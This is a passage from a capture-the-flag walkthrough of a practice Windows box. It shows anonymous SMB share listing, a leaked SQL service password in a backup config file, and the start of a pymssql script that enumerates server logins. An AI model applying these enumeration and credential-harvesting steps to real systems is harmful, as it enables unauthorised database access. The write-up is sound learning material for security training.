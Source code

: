 ```txt
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 107.48 seconds
```

[Back to top](#contents) ⤴

# SMB (:445)

```sh
$ smbclient -N -L \\\\$IP
```

![5837526228887.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1623932891091/K4g8csHPw.png align="left")

Ok, let's try to get into `backups` and download what we find there.

![5451420786410.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1623932903954/QIMCCZeNX.png align="left")

## `prod.dtsConfig`

```xml
<DTSConfiguration>
    <DTSConfigurationHeading>
        <DTSConfigurationFileInfo GeneratedBy="..." GeneratedFromPackageName="..." GeneratedFromPackageID="..." GeneratedDate="20.1.2019 10:01:34"/>
    </DTSConfigurationHeading>
    <Configuration ConfiguredType="Property" Path="\Package.Connections[Destination].Properties[ConnectionString]" ValueType="String">
        <ConfiguredValue>Data Source=.;Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc;Initial Catalog=Catalog;Provider=SQLNCLI10.1;Persist Security Info=True;Auto Translate=False;</ConfiguredValue>
    </Configuration>
</DTSConfiguration>
```

Cool, we have the credentials to the database. Because all Starting Point boxes are connected, I'm storing the credentials to the separate file I can refer to later.

```sh
echo 'sql_svc|M3g4c0rp123' | tee -a ../.credentials
```

> `tee -a` will append to file or create if it doesn't exists

[Back to top](#contents) ⤴

# MS SQL (:1433)

Because we have the credentials to the database, I'm firing up the `pymssql` to get some basic information.

```py
#query.py

import pymssql

queries = [
  "SELECT @@version",
  "SELECT user_name()",
  "SELECT system_user",
  "SELECT name FROM master..syslogins", #dump logins
]

with pymssql.connect('10.10.10.27', 'ARCHETYPE\\ ', 'M3g4c0rp123', 'master') as conn:
  with conn.cursor() as cursor:
```
